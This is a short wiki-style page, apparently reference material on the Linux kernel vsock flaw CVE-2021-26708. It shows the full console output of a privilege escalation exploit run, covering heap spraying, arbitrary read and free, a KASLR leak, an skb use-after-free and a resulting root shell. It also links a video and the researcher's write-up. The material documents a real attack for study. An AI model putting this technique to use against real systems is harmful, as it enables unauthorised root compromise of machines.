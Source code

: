     [+] stage II: arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4d00
        kaddr for arb read: ffff9125c2035300
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
    [+] go racing, show wins:

    [+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
    [+] msgrcv returned 6096 bytes
    [+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
    [+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
    [+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
    [+] Calculated kaslr offset: 2a000000

    [+] stage IV: search sprayed skb near sk_memcg...
    [+] checking possible skb location: ffff9125c42fa000
    [+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4640
        kaddr for arb read: ffff9125c42fa030
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
    [+] go racing, show wins: 0 0 20 15 42 11
    [+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
    [+] msgrcv returned 6096 bytes
    [+] found a real skb

    [+] stage V: try to do UAF on skb at ffff9125c42fa000
    [+] skb payload:
        start at 0x7f0d91120004
        skb_shared_info at 0x7f0d91120ec4
        tx_flags 0x8
        destructor_arg 0xffff9125c42fa100
        callback 0xffffffffab64f6d4
        desc 0xffff9125c3fd6e53
    [+] go racing, show wins: 15

    [+] stage VI: repeat UAF on skb at ffff9125c42fa000
    [+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30

    [+] finish as: uid=0, euid=0
    [+] starting the root shell...
    uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

<div lang="chinese" dir="ltr" class="mw-content-ltr">
視頻
----

</div>
<youtube><https://www.youtube.com/watch?v=EC8PFOYOUgU></youtube>

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html>